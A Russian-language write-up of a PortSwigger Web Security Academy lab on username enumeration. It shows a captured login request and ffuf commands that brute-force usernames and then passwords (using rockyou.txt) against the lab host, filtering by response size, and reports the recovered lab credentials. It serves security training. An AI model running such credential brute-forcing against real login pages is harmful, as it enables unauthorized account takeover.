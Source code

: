 ```yaml
---
title: "Username enumeration via different responses"
date: 2025-09-04
tags: [web, authentication, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/server-side-vulnerabilities-apprentice/authentication-apprentice/authentication/password-based/lab-username-enumeration-via-different-responses"
classes: wide
---
```


Для прохождения данной лабы нужно найти валидный логин и получить к нему доступ через ошибку в логике **аутентификации**. 

```
https://0aaa001303539ba987ef0d14004c003e.web-security-academy.net/
```

## Solution

В данном примере при вводе неправильного логина выводится сообщение об ошибке.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_authentication/IMG_Username_enumeration_via_different_responses/1.png){: height="200" .align-center}

При входе в аккаунт на сервер отправляется следующий `POST`-запрос:

```http
POST /login HTTP/2
Host: 0aaa001303539ba987ef0d14004c003e.web-security-academy.net/login
Cookie: session=A2mZdRv71ZtY7jlsemzgtHkRmx8tiDQo
Content-Length: 35
Cache-Control: max-age=0
Sec-Ch-Ua: "Not-A.Brand";v="99", "Chromium";v="124"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: https://0a03003203ac78008601588400b10000.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a03003203ac78008601588400b10000.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i

username=USERFUZZ&password=PASSFUZZ
```

Можно попробовать перебрать username с помощью следующей команды.

```bash
ffuf -w wordlists/portswigger_logins -u https://0aaa001303539ba987ef0d14004c003e.web-security-academy.net/login
-X POST -d "username=FUZZ&password=1"
```

В выводе видно, что размер страницы вместе с неправильным логином равен `3140`. Для удобства мы можем отфильтровать такие запросы с помощью флага `-fs 3140`.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_authentication/IMG_Username_enumeration_via_different_responses/2.png){: height="200" .align-center}

```bash
ad                      [Status: 200, Size: 3142, Words: 1307, Lines: 64, Duration: 114ms]
:: Progress: [101/101] :: Job [1/1] :: 49 req/sec :: Duration: [0:00:02] :: Errors: 0 ::
```

В ответах можно увидеть, что для логина `ad` длина ответа отличается от остальных. Попробую ввести его.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_authentication/IMG_Username_enumeration_via_different_responses/1.png){: height="200" .align-center}

Теперь можно попробовать перебрать пароль таким же образом, отфильтровав ответы вместе с сообщением о неправильном пароле.

```bash
ffuf -w wordlists/rockyou.txt -u https://0aaa001303539ba987ef0d14004c003e.web-security-academy.net/login -X POST -d "username=ad&password=FUZZ" -fs 3142
```

```bash
7777777                 [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 86ms]
```

Таким образом мы получили креды для аккаунта `ad:7777777`:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_authentication/IMG_Username_enumeration_via_different_responses/1.png){: height="200" .align-center}